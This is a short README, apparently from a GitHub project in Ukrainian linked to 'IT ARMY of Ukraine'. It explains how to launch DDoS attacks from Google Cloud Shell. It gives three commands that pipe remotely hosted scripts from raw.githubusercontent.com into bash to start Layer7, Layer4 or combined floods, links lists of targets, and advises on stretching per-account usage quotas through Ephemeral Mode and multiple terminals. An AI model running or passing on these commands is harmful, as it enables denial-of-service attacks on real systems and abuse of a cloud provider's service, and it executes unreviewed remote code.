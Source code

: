 ## DDoS whith Google Cloud Shell (MHDDoS_proxy)
#### Making script for durable cloudshell session
#
# ТЕСТ
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal

## Команди для запуску атаки
#### по Layer7:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
#### по Layer4:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash
```
#### Подвійна атака (Layer7+Layer4) розділений термінал (tmux):
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```
#
У GCloudShell https://shell.cloud.google.com/?fromcloudshell=true&show=terminal в налаштуваннях вимикаємо статистику використання.
Дозволяється запускати до 4 терміналів на 1 акаунт але доцільніше використовувати 1-2 термінали на акаунт.
Також враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень)
#
##### Перезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000

#
Списки з цілями

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4t.lst

#
IT ARMY of Ukraine
